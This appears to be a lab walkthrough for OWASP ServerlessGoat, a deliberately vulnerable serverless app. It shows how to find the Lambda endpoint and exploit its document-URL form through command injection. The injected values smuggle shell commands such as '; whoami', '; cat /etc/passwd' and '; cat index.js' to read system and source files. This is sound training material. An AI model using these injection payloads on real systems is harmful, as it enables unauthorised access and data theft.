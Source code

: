 #serverless-goat 
## The Verbose Walkthrough

*Still to add **INSTALL/REMOVAL** steps*

### Lambda Function API
1. Locate the Endpoint URL under CloudFormation Outputs
2. Navigate to URL in a separate browser  
The endpoint loads an OWASP ServerlessGoat page containing a form consisting of
- a single user input textbox and submit button  
- a list of potential vulnerabilities  
This form was created to convert the URL of a Word Doc into a document on a webpage  
The textbox already contains the URL of a doc file  
3. Click Submit with the currrent value in place  
This loads a A Poison Tree poem with a URL that seems remarkably close to an s3 bucket address

### Information Gathering
1. Click back on the browser to return to the page 
2. Attempt **Function Data Injection** by adding code to the end of the URL
e.g. try adding `; pwd`
3. Click submit to load the original poem as well as garbeled information 
  *this appears to be vulnerable to __Function Data Injection__*
#### Improved injection attempts
1. Click back and change the URL form to a URL that doesn't contain a doc file followed by a snippet of code . 
e.g. `https://inject; pwd`
2. Click submit to load the current working directory */var/task*
3. Repeat this tasks with the following bash code add for more information  
**Document everything for later**    
`https://inject; whoami`
   *current user should be sbx-user0666 or similar*
`https://inject; ls -la`
    *lists the current directory, which shows index.js, as well as a node_modules subdirectory*
`https://inject; cat /etc/passwd`
  *lists current users*  
`https://inject; cat index.js`
    *Provides code for basic information on how this page functions*   
    Important information to be gathered from this file includes
      * Database 
      * S3 bucket Put permissions
      * node.js package used 
      * Table information 
      * Permissions to curl (potentially) 
      * Output URL 
 
